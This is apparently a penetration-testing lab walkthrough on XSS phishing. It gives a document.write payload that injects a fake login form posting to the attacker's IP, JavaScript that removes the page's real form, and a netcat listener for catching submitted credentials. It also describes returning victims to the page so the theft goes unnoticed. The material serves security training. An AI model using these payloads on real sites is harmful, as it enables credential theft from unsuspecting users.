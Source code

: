 ## XSS Discovery

`Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

## Login Form Injection

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Cleaning Up

To do so, we can use the JavaScript function `document.getElementById().remove()`

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.16.46><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form> <!--');document.getElementById('urlform').remove()
```

## Credential Stealing

```shell
 sudo nc -lvnp 80
```
So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.
